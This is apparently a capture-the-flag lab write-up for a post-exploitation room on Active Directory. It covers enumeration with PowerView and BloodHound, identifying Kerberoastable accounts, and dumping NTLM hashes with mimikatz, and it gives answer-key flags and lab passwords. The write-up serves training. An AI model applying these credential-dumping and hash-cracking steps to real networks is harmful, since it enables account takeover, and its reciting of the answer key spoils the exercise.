







> # Post-Exploitation Basics

# Summary
<!-- TOC -->

- [Summary](#summary)
    - [Task 2 - Enumeration w/ Powerview](#task-2---enumeration-w-powerview)
    - [Task 3 - Enumeration w/ Bloodhound](#task-3---enumeration-w-bloodhound)
    - [Task 4 - Dumping hashes w/ mimikatz](#task-4---dumping-hashes-w-mimikatz)
    - [Task 6 - Enumeration w/ Server Manager](#task-6---enumeration-w-server-manager)

<!-- /TOC -->

## Task 2 - Enumeration w/ Powerview
1. What is the shared folder that is not set by default?<br>
    Use `Invoke-ShareFinder` to display all shared folder on local machine.<br>
    <br>
    **Answer:** Share

1. What operating system is running inside of the network besides Windows Server 2019?<br>
    Use `Get-ADComputer` to list all OS on a network.<br>
    The command is `Get-ADComputer -Filter * -Property * | Format-Table Name,OperatingSystem,OperatingSystemServicePack,OperatingSystemVersion -Wrap –Auto`
    <br>
    **Answer:** Windows 10 Enterprise Evaluation

1. I've hidden a flag inside of the users find it<br>
    Use `Get-UserProperty`, you will see all attribute of the user.<br>
    <br>
    At here, I choose `description` attribute with flag `-Properties`.<br>
    <br>
    I found the flag and the password of SQL Service.<br>
    **Answer:** POST{P0W3RV13W_FTW}

## Task 3 - Enumeration w/ Bloodhound
1. What service is also a domain admin<br>
    Download `SharpHound.exe` from github [https://github.com/BloodHoundAD/SharpHound/releases/tag/v1.1.1](https://github.com/BloodHoundAD/SharpHound/releases/tag/v1.1.1).<br>
    Import .zip file to BloodHound, select `Find All Domain Admins`.<br>
    <br>
    **Answer:** SQLSERVICE

1. What two users are Kerberoastable?<br>
    Select `List all Kerberoastable accounts`.<br>
    <br>
    **Answer:** SQLSERVICE, krbtgt

## Task 4 - Dumping hashes w/ mimikatz
1. what is the Machine1 Password?<br>
    Run `mimikatz.exe` and extract all local hash.
    ```
    Domain : CONTROLLER / S-1-5-21-849420856-2351964222-986696166 
                                                              
    RID  : 000001f4 (500)                                         
    User : Administrator                                          
    LM   :                                  
    NTLM : 2777b7fec870e04dda00cd7260f7bee6 
                                            
    RID  : 000001f5 (501)                   
    User : Guest                            
    LM   :                                  
    NTLM :                                  
                                            
    RID  : 000001f6 (502)                   
    User : krbtgt                           
    LM   :                                  
    NTLM : 5508500012cc005cf7082a9a89ebdfdf 
                                            
    RID  : 0000044f (1103)                  
    User : Machine1                         
    LM   :                                  
    NTLM : 64f12cddaa88057e06a81b54e73b949b 
                                            
    RID  : 00000451 (1105)                  
    User : Admin2                           
    LM   :                                  
    NTLM : 2b576acbe6bcfda7294d6bd18041b8fe 
                                            
    RID  : 00000452 (1106)                  
    User : Machine2                         
    LM   :
    NTLM : c39f2beb3d2ec06a62cb887fb391dee0

    RID  : 00000453 (1107)
    User : SQLService
    LM   :
    NTLM : f4ab68f27303bcb4024650d8fc5f973a

    RID  : 00000454 (1108)
    User : POST
    LM   :
    NTLM : c4b0e1b10c7ce2c4723b4e2407ef81a2

    RID  : 00000457 (1111)
    User : sshd
    LM   :
    NTLM : 2777b7fec870e04dda00cd7260f7bee6 

    RID  : 000003e8 (1000)
    User : DOMAIN-CONTROLL$
    LM   :
    NTLM : 1cc318a815f865c11604fa9c38731761

    RID  : 00000455 (1109)
    User : DESKTOP-2$
    LM   :
    NTLM : 3c2d4759eb9884d7a935fe71a8e0f54c

    RID  : 00000456 (1110)
    User : DESKTOP-1$
    LM   :
    NTLM : 7d33346eeb11a4f12a6c201faaa0d89a
    ```
    Crack Machihne1's hash with [crackstation.net](https://crackstation.net).<br>
    <br>
    **Answer:** Password1

1. What is the Machine2 Hash?<br>
    **Answer:** c39f2beb3d2ec06a62cb887fb391dee0

## Task 6 - Enumeration w/ Server Manager
1. What tool allows to view the event logs?<br>
    **Answer:** Event Viewer

1. What is the SQL Service password<br>
    From `BloodHound`, we can see the description of `SQLSERVICE` account.<br>
    <br>
    **Answer:** MYpassword123
